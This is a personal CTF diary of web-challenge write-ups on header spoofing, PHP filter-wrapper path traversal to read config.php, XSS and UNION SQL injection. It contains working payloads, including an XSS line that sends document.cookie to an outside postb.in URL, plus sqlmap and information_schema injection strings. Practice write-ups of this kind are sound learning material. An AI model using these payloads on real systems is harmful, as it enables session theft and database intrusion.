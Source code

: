 > [!IMPORTANT]
> To whoever might be reading this file
> 
> some writeups do have more **interesting** language which I have hidden(if you do decide to view it in code mode instead of the nice mode)
> 
> these are self notes for me to refer back in the future
> 
> lastly, I wish whoever that is reading this a good day and you achieve what you came here for


# --- n.d
first try was -> curl http://165.227.106.113/header.php
- error got error saying wrong user agent , so curl mentioned that i can specify an agent (whatever that is) to enter the site.
so i tried curl --user-agent Sup3rS3cr3tAg3nt http://165.227.106.113/header.php which used the agent given by the site
- next error says i did not come from a site called awesomesauce.com (how dare he discriminate me)
therefore after some bs and more bs , i figured that i couuld use a referer
found out using curl -help all   which btw shows all functions of curl
then the command become like this and the flag came out idk how hahahha 

curl -e awesomesauce.com  --user-agent Sup3rS3cr3tAg3nt http://165.227.106.113/header.php

challenge link -> https://ctflearn.com/challenge/109

yup thats all , fair diffuculty for meduim 

# --- n.d
okok legit final one for today
challenge -> https://ctflearn.com/challenge/691

this one quite simple, nc commect to the server , play the betting game 
simple concept of betting , guess a number, win = ur money + initial bet, loose = initial money - bet
so if 500 - 500 = 1000 , that explains all i need to redeem the flag 

# --- 31st august 2024
OK next one , this one not fully solve by me thanks to a community fella in their dc server , still gotta record this thing down for fun
This ctf is a indi one called 3108 , merdeka themed
challenge link (not sure how long it will be up) = https://b1bf68f7fd.bahterasiber.my/

When you open the link , you immediately get blasted by music which sets you in merdeka mood. THere are 3 songs, keranamu Malaysia , tanggal31 and Jalur Gemilang
there are 3 hyeriinks which will each display the lyrics of one of the songs and an audio player to play the song and sing along. 

starting of all web challenge it to look at its source code, it was short , very short
the entire script was :
    function setPage(page) {
        const encodedPage = btoa(page);
        document.cookie = "page=" + encodedPage + ";path=/";
        location.reload();
    }

so i tried to do path traversal first realizing i was dumb

then i followed the 5 line script which by the way wil trigger everytime one of the hyperlinks are clicked and set the "page" variable to the respective page
then it encodes the page in base 64 and sets it into the cookie named page
finally, it reloads the page 

i tried to use burpsuite for at least 5 hours trying different cookies and paths 
i even got access to etc/passwd and /bin/bash
that aside i also tried to extract information from the audio and even the BACKGROUND IMAGE using binwalk and stings, no luck.

finally after so many tries , time was up and i asked 
to apparently i was right but wrong, i used php wrapper but not on the config , only on the index file 


yeah thats it , you use the wrapper on the config file : php://filter/convert.base64-encode/resource=../../../var/www/html/config.php


the website returned : PD9waHAKJGhvc3QgPSAibG9jYWxob3N0IjsKJHVzZXJuYW1lID0gImN1YmFhbiBtZW5nZWhhY2sga2EgaXR1IjsKJHBhc3N3b3JkID0gIjMxMDh7bTRyMV9rMXQ0X3c0cmc0X24zZzRyNH0iOwokZGF0YWJhc2UgPSAiZmxhZyI7CgokY29ubiA9IG5ldyBteXNxbGkoJGhvc3QsICR1c2VybmFtZSwgJHBhc3N3b3JkLCAkZGF0YWJhc2UpOwoKaWYgKCRjb25uLT5jb25uZWN0X2Vycm9yKSB7CiAgICBkaWUoIkNvbm5lY3Rpb24gZmFpbGVkOiAiIC4gJGNvbm4tPmNvbm5lY3RfZXJyb3IpOwp9CgplY2hvICJDb25uZWN0ZWQgc3VjY2Vzc2Z1bGx5IjsKPz4K


when decoded we get the php file and BOOM its there : 
<?php
$host = "localhost";
$username = "cubaan mengehack ka itu";
$password = "3108{m4r1_k1t4_w4rg4_n3g4r4}";
$database = "flag";

$conn = new mysqli($host, $username, $password, $database);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

echo "Connected successfully";
?>




# --- sep26-27 2024
i spent wayyyyyyyyyyyyyyyyyyyyyyyy too much time on this bs
this one is a challenge from SKR -> https://skrctf.me/challenges#XSS-GPT 
had to literally go through piles of writeups just to get to the flag 
references (totally not in APA)
https://ctftime.org/writeup/15817 
https://portswigger.net/web-security/cross-site-scripting/reflected#reflected-xss-in-different-contexts
https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/Cross-Site-Scripting-XSS-Payloads.txt

special thankyou to postbin -> https://www.postb.in/

challenge starts of with a white ass site with a chat box and a report admin button
after reading the html, you are somewhat required to have an API key (which i have 0 idea on wtf it is) 
so i tried editing the parameter as one of the hints say and spammed random things into the apiKey parameter in the site, none worked as expected....
then i tried the classic xss to trigger alert and it worked, as in the entire site bugged out with a wall of error messages.

After some revisiting of the js, i had to change to payload to </script><script>alert("ayane")</script><script> for it to successfully trigger the xss
which then also completely broke the site
then i figured by clicking the report admin button (while the site is not broken) would send a post request to a page called reportAdmin with the api key parameter

after being stuck on the same thing for quite a while (2 hrs) i went to check out some wwriteups 
thats where i learnet that i can use postbin/webhook in combination with XSS to capture and send data to a given site 

after aa lot of spamming different payloads , this one worked (url encoded)

also first time making a code block here, yay
```
</script><script>var i=new Image;i.src="https://www.postb.in/1727372628601-9432018648367/?c="+document.cookie;</script><script>
```

then i replaced the kep parameter in the post request to the reportAdmin page and checked my postbin site , and there was the flag 
SKR{R3flec73D_1n_API_k3y_f4ae0d}

time to learn more on hwo this backend stuf and API work
anyways ending this on a good note, heres a banger i listened to while scritching my head -> https://youtu.be/DZTXaq23534

quick take away to self, please please please inspect the code carefully and if possible in visual studio code so you dont miss any pages or fucntion....




<!--- 

# ---  n.d
alright its 3 50 in the fcuking morning idk what better to do than ctf instad of sleeping, writeup time....

curl -X POST -d "username=admin&pass -d=71up-dnlkadsf" http://165.227.106.113/post.php
this is the challange link btw , you need to login to see -> https://ctflearn.com/challenge/114 

welp apparenntly this command is quite useful , yeah... 
curl or client URL can help you get the webpage from terminal (as if you dont have a browser....)
it also has parameters you can use to send data for example , nice right ? (as if a browser couldnt do it)
according to the curl -h , the -d parameter allows you to send data ain a form of http post request . honestly have no idea what the -X means ahah
ok i lied , the first part of the command curl -X POST is to specify the method using the -X parameter and POST being the method in this case(other methods such as GET)
the -d basically as mentioned above allows you to send/POST data and specifies the data you want to send 

ive completed my first writeup?
i like to call them notes or better known as references , writeup too formal for this bullshit 
for now this thing is named the bloodflame archive cuz i have no idea what to name it while also listening to ERB (would have been an amazing pun if i was writting thsi on ARCH instaed of ubuntu...)
y'knwo what , maybe this can be known better as my CTF diary since i yap so much bs here ahhahaa
aaaaaaaaany ways since i last formatted pc , i lost all my progress(diary) on SKR, gotta redo it here , for now this is all i have , im a poor man , poor of information 
its 4 01 , my sleep is fked, i havent finished my dailies , im going to sleep , need to contol the ctf addiction !!!

 

# --- n.d
I HAVE TO SAY , NO WEED OR GACHA PULLS SHOULD BE ABLE TO BEAT THE HIGH I JUST FELT SOLVING MY FIRST HARD CHALLANGE 
alright so heres the story and challenge link : https://ctflearn.com/challenge/149
so yeah this gonna be a long story , future me or whoever i share this with , get ready

the website has a simple ui that allows you to search for dogs by typing in an id (no checking btw)
after some test , there are 3 dogs in the database each with id 1-3
When each of these numbers are types in , the page displays the dog name , breed and color 

1st attempt starts with a basic sql injection from -> https://www.w3schools.com/sql/sql_injection.asp
The page then returned the data of all 3 dogs. 
This proves the site is inject-able and vulnerable.
Next step , find the damn flag...

In the challege tittle , it mentions union is a good command.
In sql , union basicaly uunites things, allowing the user to combinee the output of 2 select commands together provided they are of same datatype. 
Both select command also need to select the same command. 
Well, guess what i did , yes i tried to guess the style of the query like an idiot. 
1st guess : select * from dogs where id = 'userinput'
with this many attempts i took and none succeeded , not even outputting the 1st dog's name. 

After a few hours of searching , i came across something about information.schema.tables. 
OH , after 1 semester of sql , i didnt even know this table existed....
In fact , many more tables not only this one....
that aside, i tried to enter some strings like 

' UNION NULL,NULL,NULL,NULL -- 
as i figured that the table would only have a maximum of 4 columns.

' UNION SELECT * FROM information.schema.tables -- 
as i thought i might just get everything from that table, unfortunately no...

1 or 2 days later (i forgot , memory got hazy from all the sqli)
i looked up union attacks and even tried to intercept the request with burpsuite , no luck
Then i re-read the comments and saw a tool named sqlmap which many claimned to be the easiest way to do it. 
I looked up the github , and installed the tool on my ubuntu. 

At first i ran it  - python3 sqlmap.py -url "https://web.ctflearn.com/web8/?id=1"
not much return , following the error messages , i slowly finetune the command into this thing: 
python3 sqlmap.py -url "https://web.ctflearn.com/web8/?id=1" --technique=U --random-agent --dbms=mysql --tamper=space2comment

cant explain all but i know what some do
- url specifies the url to attack
- technique specifies the technique to use in this case being a union attack
- dbms specifies the database type which sqlmap has already found out being mysql
- i have absolutely no idea what the other 2 do but here is the explanation -> https://github.com/sqlmapproject/sqlmap/wiki/Usage

finally the program returned 3 files, a log file , target file and lastly a file named 'session.sqlite'
unfortunatly the session file could not be opened while both text files were repeated information showed in the terminal 
but it DID give something useful, which was the payload used to attack:

Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a7071,0x736746507445514d6c6d794b6e65535a4d514a784959674a694474465443666e4145794e51454e41,0x7162787071),NULL-- -


i then used the payload to craete this attempt: 
1 UNION ALL SELECT NULL,CONCAT(0x71626a7071,0x736746507445514d6c6d794b6e65535a4d514a784959674a694474465443666e4145794e51454e41,0x7162787071),NULL,NULL-- -
it worked but only returned the decryped hex value in the input. 
references for this attempt : https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/ 

Next attempt :
1 UNION ALL SELECT TABLE_NAME,TABLE_TYPE,TABLE_CATALOG,TABLE_SCHEMA FROM information_schema.tables-- -
the page returned many tables but one felt off, it was w0w_y0u_f0und_m3
sadly it was not the flag...
references for this try : https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.htmlc , https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/

3rd attempt: 
1 UNION ALL SELECT TABLE_NAME,COLUMN_NAME,TABLE_SCHEMA,TABLE_CATALOG FROM information_schema.columns-- -
this time the page returned many things , including a column 'f0und_m3' from the table 'w0w_y0u_f0und_m3'


last attempt : 
1 UNION ALL SELECT NULL,f0und_m3,NULL,NULL FROM w0w_y0u_f0und_m3-- -
it returned the information of the first dog and the flag 

alright thats a grandfather level story , time to rest , enough games today 


-->










